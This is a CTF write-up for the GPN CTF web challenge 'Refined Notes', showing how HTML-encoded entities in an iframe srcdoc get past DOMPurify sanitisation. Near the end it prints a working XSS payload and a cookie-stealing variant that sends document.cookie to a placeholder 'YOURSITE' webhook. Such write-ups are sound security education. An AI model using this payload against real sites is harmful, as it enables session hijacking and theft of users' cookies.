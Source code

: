 # Refined Notes

|||
|-|-|
|  **CTF**  |  [GPN CTF](https://play.ctf.kitctf.de/) [(CTFtime)](https://ctftime.org/event/2257)  |
|  **Author** |  WhoNeedsSleep |
|  **Category** |  Web |
|  **Solves** |  51  |

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/676cb3f3-03e7-4870-b4c6-ea79c8841a6c)

# Solution

This challenge doesn't have source files, so let's visit the two provided sites:

#### Challenge page

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/87d8008f-6597-41e6-86aa-792d7c964eca)

#### Admin bot page

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/ed552124-722c-4b45-8470-e51ecd1691be)

So we can give a UUID to the admin, and the bot will visit it. We can see that if we create a note, we will be redirected to a page with the UUID in the URL. So this UUID can be given to the bot.

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/de16ba3c-f139-43d2-877f-e6aa211a71fe)

If we check the HTML source code of the challenge page, we see:

```html
<!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Refined Note Taking App</title>
        <link href="https://cdn.jsdelivr.net/npm/tailwindcss@2.2.19/dist/tailwind.min.css" rel="stylesheet">
        <script src="https://cdn.jsdelivr.net/npm/dompurify@3.1.4/dist/purify.min.js"></script>
        <script defer src="/static/index.js"></script>
    </head>
    <body class="bg-gray-100 p-4">
        <div class="max-w-lg mx-auto">
            <h1 class="text-2xl font-bold mb-4">Refined Note Taking App</h1>
            <div id="container" class="mb-4 flex flex-col">
                <iframe id="noteframe" class=" bg-white w-full px-3 py-2 border rounded-md h-60" srcdoc="a"></iframe>
                <textarea type="text" id="note" class="hidden w-full px-3 py-2 border rounded-md h-60" placeholder="Enter your note here"></textarea>
                <button id="submit" class="hidden mt-2 px-4 py-2 bg-blue-500 text-white rounded-md">Add Note</button>
            </div>
        </div>
    </body>
```

We can see that our input is put in the `srcdoc` attribute of the `iframe`. We also see an `index.js` file. Let's check that file:

```js
submit.addEventListener('click', (e) => {
    const purified = DOMPurify.sanitize(note.value);
    fetch("/", {
        method: "POST",
        body: purified
    }).then(response => response.text()).then((id) => {
        window.history.pushState({page: ''}, id, `/${id}`);
        submit.classList.add('hidden');
        note.classList.add('hidden');
        noteframe.classList.remove('hidden');
        noteframe.srcdoc = purified;
    });
});
```
We can see that when we submit a note, it first sanitizes our input with `DOMPurify`. It's using version `3.1.4`; `3.1.5` is the latest version at the moment I am writing this. There is no CVE or known bypass for this version as far as I know.

After sanitizing, it will post it to the backend. If we get a response back, it will put our input `purified` inside `noteframe.srcdoc`.

### So what is the goal of this challenge?

We need to get XSS to steal the cookie of the bot. Most of the time when there is a bot, the goal is to steal the cookie. We need to find a way to get XSS. A DOMPurify bypass is probably not the way. The interesting part is that our input is directly put inside the srcdoc attribute of an iframe.

I first tried to close the srcdoc attribute and add a src attribute. It didn't trigger anything, so I thought it took the input literally and moved on to find some other stuff. But it didn't work because when an iframe contains a src and srcdoc attribute, the srcdoc attribute will take priority.

From [here](https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html):
`If the src attribute and the srcdoc attribute are both specified together, the srcdoc attribute takes priority. This allows authors to provide a fallback URL for legacy user agents that do not support the srcdoc attribute.`

So you can use other attributes to get XSS here. But the intended way to solve this, which I did during the CTF, was using HTML encoded entities. 

My teammate found this issue on [Github](https://github.com/apostrophecms/sanitize-html/issues/217).

So when using a payload like this `&lt;img src=x:x onerror=alert(1)&gt;`, it will give us an alert:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/65cd3979-e534-4749-81d1-85fe553214fa)

So now we can easily change the payload to send us the cookie:

`&lt;img src=x:x onerror=document.location='YOURSITE/?f='+document.cookie&gt;`

If we send it to the admin bot and check our webhook, we get the flag:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/304ed5df-0c8f-4250-9add-05caa450e1dc)




